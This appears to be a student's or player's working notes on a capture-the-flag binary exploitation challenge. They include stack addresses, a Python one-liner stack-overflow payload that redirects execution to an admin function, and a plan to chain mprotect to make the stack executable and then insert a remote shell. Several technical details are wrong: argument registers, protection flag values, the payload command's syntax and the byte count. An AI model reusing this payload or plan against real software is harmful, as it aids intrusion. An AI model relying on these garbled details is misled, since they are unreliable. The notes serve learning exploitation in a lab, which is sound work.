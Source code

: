 gets = 0x00000000004011df
Instruction of isAdmin = 0x080492bc
&name = 0x7fffffffd900

This is THE FUNC WE WANT to overwrite!!!
0x08049299

Register:
$rsp = 0x7fffffffd300 => 6 bytes used
$rbp = 0x7fffffffdb00

previous value of $rsp (stack pointer) = 0x08049294
get to print func

Main stack function:
$rsp = 0xffffc590
just after the jump to printName = 0x00000000 0040116e

get to thsi function: 0x0000000000401146 (main)

TOOD: Need to manipulate the return value to jump to welcomeAdmin
![](./RCE_location.png)

0xffffc58c - 0xffffc56c = 32 bytes needed

python3 "import sys; sys.stdout.buffer.write(28 * b'C' + b'\x4a\x93\x04\08')" > ./challenge

--------------------------------------------------------------------
Address randomisation occurs -> need to update locally

Interesting how the make file did not compile it automatically to 64bit
(x64) and resort to x86 (32 bits) instead

Further supported by the fact that the challenge binary is huge 😭
![](./file-size.png)

Static linking means we can use the libc binaries
![](./file-properties.png)
![](./checksec.png)

Notice that the main function and f function does not have a stack canary!!
![](./no-canary.png)

Attack:
We will make the stack executable by using the function
mprotect within libc to remove stack execution protection.

Then insert remote shell

TODO:
We need to know how mprotect function works
Page aligned address
<https://man7.org/linux/man-pages/man2/mprotect.2.html>

`int mprotect(addr[.size],    size,            protection);`
registers:      RDI ,         RSX,        ,     RDI

PROT_READ = 4
PROT_WRITE = 2
PROT_EXEC = 1
protection = 0x7

dl_pagesize = (little endian): 0x00 10 00 00 00 00 00 00
            = 0x 00 00 00 00 00 00 10 00
            = 4096 bytes

__libc_stack_end = 0x0049fa38
puts = 0x0040a780
0x0000000000402081 : pop rdi ; ret
